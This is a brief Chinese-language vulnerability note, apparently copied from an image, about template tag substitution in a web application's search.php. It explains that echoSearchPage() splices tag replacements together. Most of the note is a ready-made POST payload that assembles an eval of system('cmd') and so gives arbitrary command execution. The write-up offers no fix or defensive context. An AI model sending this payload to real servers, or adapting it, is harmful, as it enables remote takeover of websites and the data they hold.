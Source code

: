 漏洞详情:
	漏洞位于search.php处，echoSearchPage()函数对html中的searchpage标签进行了多次的替换，多次替换过程中不断组合形成payload
PostData:
	searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=sys&9[]=tem('cmd');
	可执行任意命令
	